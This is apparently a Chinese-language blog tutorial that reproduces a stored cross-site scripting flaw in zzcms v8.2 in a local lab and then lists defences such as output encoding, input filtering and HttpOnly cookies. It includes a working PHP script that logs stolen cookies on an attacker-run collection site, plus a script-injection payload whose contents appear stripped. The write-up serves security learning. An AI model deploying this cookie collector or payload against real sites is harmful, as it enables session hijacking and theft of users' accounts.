


## 前言

最近在[`CNVD`（国家信息安全漏洞共享平台）](<https://www.cnvd.org.cn/flaw/typelist?typeId=29>)找了一个存在`XSS`漏洞的`Web`应用进行复现。在`PHP` + `MySQL`环境上搭建出一个真实的实验环境对`zzcms v8.2`的一个`XSS`漏洞进行复现，进而解析`XSS`跨域攻击机制及防御技术。

<!-- more -->

## 背景

跨站脚本攻击`（XSS）`是客户端`Web`安全的最大威胁之一，不仅危害`Web`业务本身，同时对访问`Web`业务的用户也会带来直接的影响。因跨站脚本攻击的多样性以及`Web`安全漏洞的隐蔽性，使得`XSS`的攻击很难彻底防御。

### XSS 攻击的原理

跨站脚本攻击本质上是一种将恶意脚本嵌入到当前网页中并执行的攻击方式。通常情况下，黑客通过“`HTML`注入”行为篡改网页，并插入恶意`JavaScript`脚本，从而在用户浏览网页的时候控制浏览器行为。这种漏洞产生的主要原因是网站对于用户提交的数据过滤不严格，导致用户提交的数据可以修改当前页面或者插入了一段脚本。

攻击者可利用其用户身份在输入参数时，附带了恶意脚本，在提交服务器之后，服务器没有对用户端传入的参数做任何安全过滤。之后服务器会根据业务流程，将恶意脚本存储在数据库中或直接回显给用户。在用户浏览含有恶意脚本的页面时，恶意脚本会在用户浏览器上成功执行。

### XSS 攻击的分类

- 反射型跨站攻击：涉及浏览器—服务器交互
- 存储型跨站攻击：涉及浏览器—服务器—数据库交互
- DOM型跨站攻击：涉及浏览器—服务器交互

### XSS 攻击危害

- 窃取用户Cookie
- 控制企业数据，包括读取、篡改、添加、删除企业敏感数据的能力
- 窃取具有商业价值的资料
- 非法转账，非法进行交易
- 植入木马病毒
- 强行弹出广告
- 操控用户主机
- ...

## XSS 攻击实现

`XSS`攻击是需要满足`XSS`攻击的条件。`XSS`漏洞的利用过程较为直接。反射型/`DOM`型跨站攻击均可以理解为：服务器接收到数据，并原样返回给用户，整个过程中`Web`应用并没有存入数据库，这也导致了攻击无法持久化，仅针对当次请求有效，也就无法直接攻击其他用户。一般这两类攻击也可利用钓鱼、垃圾邮件等手段产生攻击其他用户效果。

反射型与存储型`XSS`攻击的实现原理和主要流程非常相似，但由于存储型`XSS`攻击的持久性及危害更加强大，所以本次`XSS`攻击实现，将采用存储型跨站攻击方式进行实践分析。

首先，要成功实施跨站脚本攻击，我们需要了解一下存储型跨站的主要业务流程

<div style="width:100%;height:100%;text-align:center;font-size: 0;"></div>
<!--  -->

根据上图业务流程，存储型`XSS`攻击有两个重点的步骤：信息入库处理、出库处理，结合`XSS`攻击的特性可知，`XSS`攻击成功必须要满足以下四个条件：

1. 目标网页有攻击者可控的输入点
2. 输入信息可以在受害者的浏览器中显示
3. 输入具备功能的可执行脚本，且在信息输入和输出的过程中没有特殊字符的过滤和字符转义等防护措施，或者说防护措施可以通过一定的手段绕过
4. 浏览器将输入解析为脚本，并具备执行该脚本的能力

以上四点缺一不可。如果需要做针对`XSS`攻击的防御，只要针对上述任何一点做好防御，攻击就无法正常开展，`XSS`漏洞也就不存在了，后面将详细解析`XSS`攻击的防御。

### 搭建zzcms v8.2服务运行环境

因为`zzcms v8.2`是基于`php` + `mysql`环境下运行的，这里将采用`php` +`mysql` + `xampp` 将`zzcms`部署在`window`系统上，然后通过浏览器地址栏输入主机`IP`可进入到`zzcms`的首页，即搭建成功。部署好靶机后，我们任需要一个收集敏感信息的站点，一个攻击者站点，同时还需要一个用户主机的站点，准备好这些站点，将可以进行漏洞复现。

### 部署攻击者准备的收集敏感信息的站点

同样，我们任需通过`xampp`来部署收集敏感信息的站点，在`..\xampp\htdocs\`路径下新建一个文件夹用于采收用户的敏感信息，这里复现漏洞将采用获取用户的`cookie`值为例。新建文件夹命名为`xss`，然后在`..\xampp\htdocs\xss`路径下新建`index.php`用于获取用户的`cookie`。在该`php`文件下输入以下代码：

```php
<?php 
$cookie=$_GET['cookie'];      //以GET方式获得cookie变量值 
$time=date('Y-m-d g:i:s');    //以“年-月-日 时：分：秒”的格式显示时间 
$referer=getenv('HTTP_REFERER');       //获取referer 
$cookietxt=fopen('cookie.txt','a');   //打开cookie.txt，若不存在则创建它 
fwrite($cookietxt,"time:".$time. " cookie:".$cookie. " referer:".$referer);    //写入文件 
fclose($cookietxt);     //关闭文件 
?>
```

### 实施攻击

跨站脚本攻击最典型的形式就是在网站的评论功能、论坛私信功能和发表帖子以及留言板等处使用静心构造的`HTML`代码提交数据，从而达到恶意攻击目的。

在我们刚刚部署好的靶机上，攻击者访问了刚刚搭建的存在`XSS`漏洞的`zzcms`网站，攻击者通过登录注册进入到存在漏洞的输入框，开始植入恶意代码

```javascript
<script>
    document.write('');
</script>
```

通过`img`的`src`属性自带跨域机制，以及指定的`url`传参的形式将窃取到敏感信息发送至攻击者准备的收集信息站点。攻击的类型为存储型跨站攻击，也就是说，攻击者植入的这些恶意代码将通过存储型跨站的业务流程，存入数据库，并能返回给用户，同时浏览器将输出解析为脚本，并执行该脚本。而且该脚本长期有效，并且一直存在该网站上。

到此，攻击者已经完成了攻击，接下来就是等待用户点击此链接，从而窃取用户的`cookie`值。

### 窃取用户敏感信息

攻击者发布存在恶意代码的链接将一直存在该网站，而普通用户并不知道该链接存在恶意代码，所以当普通用户点击该链接后，攻击者将窃取敏感信息。

<div style="width:100%;height:100%;text-align:center;font-size: 0;"></div>
<!--  -->

上图所示均为攻击者收集敏感信息站点所收集到的用户`cookie`信息，攻击者可采用此敏感信息进行伪登录，从而获取更多用户信息。

## XSS 攻击的防御

上面提到了`XSS`攻击的必要条件，那么只要破坏`XSS`攻击的必要条件将可防止`XSS`安全漏洞。目前对`XSS`漏洞的防御一般有两种方式。

### 代码层防御

`XSS`攻击防范主要是由程序漏洞造成的，治标还要治本，从代码层面上采用预防漏洞的高级编程技术，可以帮助大大减少`XSS`安全漏洞。

- 对用户输入和`URL`参数进行过滤，对输出进行编码
- 对用户所有提交内容进行验证，包括`URL`、查询关键字、`HTTP`头、`POST`数据等
- 仅接受指定长度范围内、采用适当格式、采用所预期的字符的内容提交
- 在变量值输出到前端的`HTML`时进行编码和转义，对特殊字符进行过滤和转义
- 给关键的`cookie`使用`http-only`

### 部署专业的防御设备

目前较为流行的有入侵防御产品，利用的就是入侵防御产品对应用层攻击的检测防御能力。用户在选择相应的产品时，可先了解相关产品的`XSS`、`SQL`注入等`Web`威胁的检测方式。部分检测`XSS`攻击产品是通过一定特征进行匹配代码检测。一旦检测到关键指定代码，将判定为`XSS`攻击，从而阻断程序进行。

## 总结

`XSS`攻击是最常见的`Web`攻击方式之一，和`SQL`注入漏洞不同的是，`XSS`漏洞存在多样性和隐蔽性，更加难以发现。一般的防御措施也仅限在通过编写高质量的程序，从而来过滤存在恶意的代码，但是这样难免会出现遗漏或者疏忽的地方，所以在安全与高效之间，必须要兼顾安全再进一步高效编码，一旦疏忽或者遗漏而产生漏洞带来的后果将是不可估量的。


参考文献

《Web安全防护指南》、《黑客攻防实战秘技》、[XSS攻击防御技术白皮书](<http://netsecurity.51cto.com/art/200807/81551.htm> )、[XSS的攻击与防范]( <https://www.freebuf.com/articles/web/185654.html>)